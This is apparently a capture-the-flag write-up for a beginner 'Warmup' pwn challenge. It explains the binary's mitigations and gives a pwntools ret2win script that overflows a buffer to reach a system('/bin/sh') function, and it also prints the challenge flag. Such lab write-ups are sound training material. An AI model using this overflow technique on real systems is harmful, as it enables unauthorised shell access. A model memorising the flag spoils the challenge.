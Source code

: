 <img src="Resources/UCTF.jpg" title="UCTF" alt="UCTF" data-align="center">

# Warmup
Just another warmup

# Write Up

This challenge serves as a straightforward introduction to binary exploitation. The binary comes with the following mitigations enabled:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

From this, we know that:

- NX (Non-Executable) is enabled, so we can't execute code directly from the stack.
- No PIE (Position Independent Executable) is significant because it means the binary's addresses are fixed, making it easier to locate functions.

## Analysis

After loading the binary into IDA, we find a function that directly calls system("/bin/sh"). This immediately tells us that we can use a simple ret2win approach by redirecting execution to this function, allowing us to spawn a shell. Since PIE is disabled, we don't need to perform any address leak or infoleak techniques.

## Exploit Strategy

We just need to craft a payload that:

1. Overflows the buffer to control the return address.
2. Uses a ret gadget to align the stack.
3. Jumps directly to the address of the system("/bin/sh") function (which we’ll call win here).

## Exploit Script

Below is the Python script to automate the exploitation using pwntools:

```python
from pwn import *

elf = context.binary = ELF("./challenge_files/warmup")
libc = elf.libc

gs = '''
continue
'''
def start():
    global gs
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("0.0.0.0", 5002) 
    else:
        return process(elf.path)

io = start()

payload = b'A' * 72
payload+= p64(0x000000000040101a) # ret
payload+= p64(0x0000000000401201) # win

io.sendline(payload)

io.interactive()
```

# Flag
```UCTF{Zer0_2_Haf1z_Sh1r4z}```

# Categories

Check the categories which the challenge belongs to.

- [ ] Web
- [ ] Reverse
- [X] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Blockchain 
- [ ] Steganography
- [ ] AI

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      | 150             | 500  |

# Resources

The files are in `challenge_files` directory which includes: ['Execution.exe']